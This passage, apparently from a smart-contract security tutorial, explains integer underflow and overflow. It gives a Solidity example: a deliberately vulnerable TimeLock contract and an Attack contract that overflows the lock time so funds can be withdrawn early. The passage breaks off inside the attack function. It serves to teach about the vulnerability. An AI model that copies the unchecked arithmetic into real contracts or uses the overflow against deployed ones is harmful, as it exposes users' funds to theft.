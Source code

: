 Integer underflows happen for similar reasons: the the results of an arithmetic operation falls below the acceptable range. Say you tried decrementing `0` in a `uint8`, the result would simply roll over to the maximum representable value (`255`).

Both integer overflows and underflows can lead to unexpected changes to a contract’s state variables and result in unplanned execution. Below is an example showing how an attacker can exploit arithmetic overflow in a smart contract to perform an invalid operation:

```solidity
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
```